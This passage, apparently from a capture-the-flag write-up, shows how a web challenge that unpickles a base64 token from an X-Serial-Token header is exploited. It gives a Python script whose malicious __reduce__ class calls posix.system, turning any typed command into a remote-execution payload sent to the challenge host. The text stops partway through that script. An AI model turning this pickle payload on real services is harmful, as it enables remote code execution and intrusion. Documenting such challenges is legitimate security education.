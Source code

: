 Sending the modified token with `cat flag.txt` reveals different response codes in the `h1` tag, indicating command execution success or failure:

![Modified token request/response](Pasted%20image%2020250218150019.png)

To streamline the exploitation process, a custom Python console script automates payload generation and request handling:

```python
import pickle
import base64
import posix
import requests
from bs4 import BeautifulSoup
import readline

class Evil:
    def __reduce__(self):
        return (posix.system, (cmd,))

def create_payload(command):
    global cmd  # Use global to make cmd accessible in Evil class
    cmd = command
    return base64.b64encode(pickle.dumps(Evil())).decode()

def parse_response(html):
    soup = BeautifulSoup(html, 'html.parser')
    # Find result in h1 tag
    result = soup.find('h1')
    if result:
        return result.text
    return "No result found"

def send_request(token):
    url = "http://chall.ehax.tech:8008/t0p_s3cr3t_p4g3_7_7"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'X-Serial-Token': token
    }

    try:
        response = requests.get(url, headers=headers)
        return response.text
    except requests.RequestException as e:
        return f"Error making request: {str(e)}"

def main():
    print("-" * 50)

    while True:
        try:
            command = input("Command > ").strip()

            if command.lower() == 'exit':
                break

            if not command:
                continue

            # Create payload
            token = create_payload(command)
            print(f"\nGenerated Token: {token}")
```